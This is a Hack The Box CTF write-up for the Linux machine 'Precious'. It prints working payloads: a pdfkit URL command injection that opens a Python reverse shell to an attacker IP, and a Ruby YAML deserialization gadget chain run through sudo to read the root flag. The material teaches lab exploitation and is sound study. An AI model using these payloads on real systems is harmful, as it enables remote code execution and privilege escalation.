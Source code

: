 ```yaml
---
title: "Precious - HackTheBox"
description: "https://www.hackthebox.com/machines/precious"
summary: "Hack The Box Machine Precious"
date: 2023-09-28
draft: false
author: "Aftab Sama" # ["Me", "You"] # multiple authors
tags: ["Linux", "HackTheBox", "Easy", "CTF"]
canonicalURL: ""
showToc: true
TocOpen: false
TocSide: 'right'  # or 'left'
# weight: 1
# aliases: ["/first"]
hidemeta: false
comments: false
disableHLJS: true # to disable highlightjs
disableShare: true
hideSummary: false
searchHidden: false
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: true
ShowRssButtonInSectionTermList: true
# UseHugoToc: true
cover:
    image: "images/cover.webp#center" # image path/url
    alt: "Cover: Precious Machine Logo" # alt text
    caption: "" # display caption under cover
    relative: false # when using page bundles set this to true
    hidden: false # only hide on current single page
# editPost:
#     URL: "https://github.com/"
#     Text: "Suggest Changes" # edit text
#     appendFilePath: true # to append file path to Edit link
---
```


![](images/cover.webp#center)

------------------------

### About Precious
- Precious is an Easy Difficulty Linux machine, that focuses on the `Ruby` language. 
- It hosts a custom `Ruby` web application, using an outdated library, namely pdfkit, which is vulnerable to `CVE-2022-25765`, leading to an initial shell on the target machine. 
- After a pivot using plaintext credentials that are found in a Gem repository `config` file, the box concludes with an insecure deserialization attack on a custom, outdated, `Ruby` script.


### Scanning

Port scaning with nmap
- port 80 is open : redirect to http://precious.htb/

add this to `/etc/hosts`.

### Foothold

On this page we have **Convert Web Page to PDF** functionality.

<img width="474" alt="image" src="https://user-images.githubusercontent.com/79740895/231573264-a9246425-3e38-4e9d-8b5a-431684ceff6f.png">

after giving url pdf file is downloaded.

using exiftool on pdf we know that it is _Generated by pdfkit v0.8.6_.

This version is vulnerable to RCE.

Payload: 
```url
http://%20`{command}`
```

we can use this payload to get reverse shell:

```shell
http://%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.40",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'`
```

references: https://www.revshells.com/

we get shell as user ruby

<img width="216" alt="image" src="https://user-images.githubusercontent.com/79740895/231575127-06729034-9ced-4058-bc70-6b335f7044f9.png">

### Escalating Privileges

we can see two user in /home directory.

<img width="83" alt="image" src="https://user-images.githubusercontent.com/79740895/231575282-f6f90c02-7aa8-4d87-ba56-d603b07b02eb.png">

user flag is in directory of user henry but it is not accessible.

inside the directory of user ruby there is config file in .bundle in this file we can see password of user henry.

<img width="252" alt="image" src="https://user-images.githubusercontent.com/79740895/231575704-cd2668c0-8a7e-4542-91bb-669cb7bdaed1.png">

we can use this for ssh to henry.

user can run /opt/update_dependencies.rb as root with sudo.

<img width="344" alt="image" src="https://user-images.githubusercontent.com/79740895/231576872-90fbe14a-5858-4480-83a5-901366213b58.png">

this file is not writable. looking at code we see it use YAML.load, which is vulnerable to deserialization attack.

<img width="213" alt="image" src="https://user-images.githubusercontent.com/79740895/231577426-1faf86eb-003b-4c17-be99-0ca2b7c79a60.png">

we can write in dependencies.yml.

payload:

```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: cat /root/root.txt
         method_id: :resolve
```

reference: https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565#file-ruby_yaml_load_sploit2-yaml

now we can run this with sudo and get the root flag.

`sudo /usr/bin/ruby /opt/update_dependencies.rb`


This will give the root flag.

Happy Hacking
